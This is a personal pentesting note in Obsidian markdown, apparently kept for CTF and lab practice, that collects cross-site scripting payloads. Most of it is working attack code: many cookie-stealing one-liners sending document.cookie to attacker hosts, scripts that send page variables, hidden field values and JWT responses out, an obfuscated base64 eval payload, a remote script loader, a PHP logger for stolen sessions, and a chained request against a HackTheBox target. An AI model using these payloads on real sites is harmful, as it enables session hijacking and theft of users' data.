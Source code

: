 ```yaml
---
creation date: April 17th 2023
last modified date: April 17th 2023
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[XSS]]  
___

## Description:  
https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting

### Good test payloads
```
<script>alert(1)</script>
<img src =q onerror=prompt(8)>
```

### Classic Cookie Stealer
```
<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
<img src=x onerror="location.href='http://<YOUR_SERVER_IP>/?c='+ document.cookie">
<script>new Image().src="http://<IP>/?c="+encodeURI(document.cookie);</script>
<script>new Audio().src="http://<IP>/?c="+escape(document.cookie);</script>
<script>location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.write('<img src="http://<YOUR_SERVER_IP>?c='+document.cookie+'" />')</script>
<script>window.location.assign('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['assign']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['href']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>document.location=["http://<YOUR_SERVER_IP>?c",document.cookie].join()</script>
<script>var i=new Image();i.src="http://<YOUR_SERVER_IP>/?c="+document.cookie</script>
<script>window.location="https://<SERVER_IP>/?c=".concat(document.cookie)</script>
<script>var xhttp=new XMLHttpRequest();xhttp.open("GET", "http://<SERVER_IP>/?c="%2Bdocument.cookie, true);xhttp.send();</script>
<script>eval(atob('ZG9jdW1lbnQud3JpdGUoIjxpbWcgc3JjPSdodHRwczovLzxTRVJWRVJfSVA+P2M9IisgZG9jdW1lbnQuY29va2llICsiJyAvPiIp'));</script>
<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie});</script>
<script>navigator.sendBeacon('https://ssrftest.com/x/AAAAA',document.cookie)</script>
```
Here we have used btoa() method for converting the cookie string into base64 encoded string.
Setup http server to catch responses:
```
python3 -m http.server -m 80
```

### One Liner to steal all stored js variables

```
# to the console
<script>for(var p in window) window.hasOwnProperty(p)&&"function"!=typeof window[p]&&console.log(p+": "+window[p])</script>

# to remote server
<script>
  var xhr = new XMLHttpRequest();
  xhr.open('POST', 'https://attacker-server.com/steal.php', true);
  xhr.setRequestHeader('Content-Type', 'application/json;charset=UTF-8');
  var variables = {};
  for (var p in window) {
    if (window.hasOwnProperty(p) && typeof window[p] !== 'function') {
      variables[p] = window[p];
    }
  }
  xhr.send(JSON.stringify(variables));
</script>

# contents of steal.php (I dont know if its needed though)
<?php
$p_session = $_POST['p_session']; // Accessing the stolen p_session value

// Log or process the stolen value as desired
$logFile = 'stolen_data.log';
$logData = date('Y-m-d H:i:s') . ' - p_session: ' . $p_session . "\n";
file_put_contents($logFile, $logData, FILE_APPEND);
?>

```

### Steal the value of hidden input fields on a page

Let's say the target web page contains a hidden input field with an id of "secret":
```
<input type="hidden" id="secret" value="sensitive_value">
```

You can also change this from getElementById to getElementById if its using name instead of id.

An attacker can inject a malicious script that retrieves the value of the hidden input field and sends it to a remote server.


```
<script>
  var secretValue = document.getElementById('secret').value;

  // Create an image element and set its source to the attacker's server,
  // passing the secret value as a query parameter
  var img = new Image();
  img.src = 'https://attacker-server.com/steal.php?secret=' + encodeURIComponent(secretValue);
</script>

### Same script on one line

<script>var secretValue=document.getElementById('secret').value;var img=new Image();img.src='https://attacker-server.com/steal.php?secret='+encodeURIComponent(secretValue);</script>

```
Simple alert box POC:
```
<script>alert(document.getElementById('html_input_field').value);</script>
```

### Downloader for longer XSS payloads
```
<script src=http://10.10.14.23:80/payload.js>
```

### stealing value set in a response (such as a jwt token)
Use a downloader to pull the following code:
```
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
	if (xhr.readyState == 4 && xhr.status == 200) {
		var yourtoken = xhr.response
		var xhr2 = new XMLHttpRequest();
		xhr2.open("GET", "http://127.0.0.1:8000/?body=" + yourtoken);
		xhr2.send();
	}
}
xhr.open("GET", "https://some-url.com/v2/authenticationtoken/refresh");
xhr.send();
```
This script will send a request to a specific page as the user and then will send the response back to you.
Make sure to set the first URL as yourself (and open a python http listener) and set the second URL to the request containing the sensitive info in the response.
**This will grab the entire body, use the article below you need to grab a header**

https://medium.com/@agrawalsmart7/steal-csrf-auth-unique-key-header-with-xss-5a54c38d7ec3

### HttpOnly attribute bypass
https://www.shorebreaksecurity.com/blog/xss-exploitation-with-xhr-response-chaining/

### Javascript to make a request to a page as another user

```

var data = new URLSearchParams('email[$ne]=1&password[$regex]=^69.*$');
fetch('http://staff-review-panel.mailroom.htb/auth.php', {
	method: 'POST',
	headers: {
		'Content-Type': 'application/x-www-form-urlencoded'
	},
	body: data.toString()
})
	.then(response => response.text())
	.then(data => {
	// Make a POST request to another website with the data
		fetch('http://10.10.14.23/post', {
			method: 'POST',
			headers: {
				'Content-Type': 'text/plain'
			},
			body: data
		})
			.then(response => console.log('Data sent:', response));
	});

```

# Server Side XSS (Dynamic PDF)
[hacktrick article](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf)
If a web page is creating a PDF using user controlled input, you can try to **trick the bot** that is creating the PDF into **executing arbitrary JS code**.

```
Discovery:
List current directory
<script>document.write('<iframe src="'+window.location.href+'"></iframe>')</script>



```

### XSS is .md files

https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/xss-in-markdown



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: April 17th 2023 (12:11 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
